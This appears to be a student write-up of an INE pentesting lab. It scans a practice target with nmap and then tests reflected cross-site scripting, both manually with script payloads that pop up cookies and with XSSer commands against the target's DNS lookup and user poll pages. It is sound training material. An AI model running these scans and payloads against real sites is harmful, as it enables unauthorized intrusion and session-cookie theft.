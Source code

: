 # Cross-site scripting -lab (INE-pentesting student path)

A target web application is available at http://demo.ine.local.

The objective: To perform an XSS attack on the target with the tool XSSer.

## Target info:

Host: http://demo.ine.local / 192.238.82.3

Open ports:
* 80    http
* 3306  MySQL 5.5.47 

OS: 
* Linux 4.15 - 5.6.
* Ubuntu 14.04.1

## 1. Scanning and footprinting the target

Ping the target host to check if it's online:

    ping demo.ine.local

The target responds and we get the ip address for the host: 192.238.82.3

Scan open ports with nmap:

    nmap -p- 192.238.82.3 >> nmap.txt

Found 2 open ports: 80 (http) and 3306 (mySQL). Check the version of mySQL service:

    nmap -p 3306 -sV 192.238.82.3

MySQL-version: 5.5.47. The scan also gives the Ubuntu version of the host: 14.04.1 

Detect OS running on the target:

    nmap -O 192.238.82.3 >> nmap.txt

Detected OS: Linux 4.15 - 5.6. 

## 2. Testing Reflected XSS exploits manually

Using the User Lookup (SQL) functionality found from OWASP 2017 > A7 Cross Site Scripting (XSS) > Via "Input" (GET/POST) > User info (SQL):

The value entered to the Name -field is shown in the results section as written. Wrapping input to common html tags shows that the input is evaluated as html. For example with \<i>test\</i> the input is reflected in italics and with \<h1>test\</h1> as a h1 header. 

Javascript can also be executed in the name field, for example \<script>alert(1);\</script> shows a pop-up as expected and \<script>alert(document.cookie);\</script> displays cookies in the pop-up. 

## 3.1 Testing with XSSer, POST requests

Using the DNS Lookup functionality as the target, get the request url and body with Burp Suite intercept and pass them to XSSer as --url and -p parameters. Replace the given input with XSS, so that XSSer can replace it with payloads:

    xsser --url "demo.ine.local/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS"

XSSer confirms that the target is vulnerable to XSS attacks. Using the --auto option, test various built in payloads:

    xsser --url "demo.ine.local/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --auto

The test tries 1291 different payloads, 1287 of which were successful. 

A custom payload can be used with the --Fp (Final payload) option and by defining the payload:

    xsser --url "demo.ine.local/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert(1);</script>"

The test confirms that the given payload works and gives final attack string that can be used as input by, for example, replacing the request body with it in Burp Suite. 

## 3.2 Testing with XSSer, GET requests

Using the User Poll as target, select any option and give initials. Intercept the request with Burp Suite and copy the url and request parameters to XSSer. Replace the value for user input with XSS for xsser to replace it with payloads:

    xsser --url "http://demo.ine.local" -g "/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=a&user-poll-php-submit-button=Submit+Vote"

The test shows that the target is vulnerable to XSS. Running the test with --auto option to test with various built-in payloads:

    xsser --url "http://demo.ine.local" -g "/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=a&user-poll-php-submit-button=Submit+Vote" --auto

The tries 1291 payloads, 1281 of which were successful. 

Testing a custom payload with the --Fp option:

    xsser --url "http://demo.ine.local" -g "/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=a&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1);</script>"

The test confirms that the target is vulnerable to the given payload. Copying the Final Attack string to a request intercepted by Burp Suite triggers the payload, as excepted. 
